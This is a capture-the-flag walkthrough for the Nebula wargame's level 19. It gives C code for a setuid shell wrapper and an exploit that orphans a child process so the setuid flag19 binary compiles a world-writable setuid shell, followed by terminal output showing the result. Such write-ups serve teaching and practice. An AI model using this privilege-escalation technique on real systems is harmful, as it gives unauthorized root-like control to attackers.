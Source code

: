 We simply have to write a program that executes the `flag19` binary and kills
the parent process before the `flag19` binary runs.

First, we prepare our `shell.c`:

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

Next, we write our exploit code that forks a child process, sleeps the child
process until the parent process exits, then runs the `flag19` binary to
compile our `shell.c` code.

```c
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {

    pid_t child = fork();
    if (child == 0) {
        sleep(3);
        char *args[] = {"/bin/sh", "-c", "gcc /home/level19/shell.c -o /home/flag19/shell; chmod 4777 /home/flag19/shell", NULL};
        execve("/home/flag19/flag19", args, envp);
    }

    return 0;
}
```

We compile and run our exploit code.

```shell
level19@nebula:~$ gcc -o /home/level19/exploit /home/level19/exploit.c
level19@nebula:~$ /home/level19/exploit
```

After a few seconds, we see a `/home/flag19/shell` binary.

```shell
level19@nebula:~$ ls -lah /home/flag19
total 21K
drwxr-x--- 1 flag19 level19   60 2017-12-27 22:56 .
drwxr-xr-x 1 root   root     260 2012-08-27 07:18 ..
-rw-r--r-- 1 flag19 flag19   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag19 flag19  3.3K 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag19 level19 7.4K 2011-11-20 21:22 flag19
-rw-r--r-- 1 flag19 flag19   675 2011-05-18 02:54 .profile
-rwsrwxrwx 1 flag19 level19 7.2K 2017-12-27 22:56 shell
```
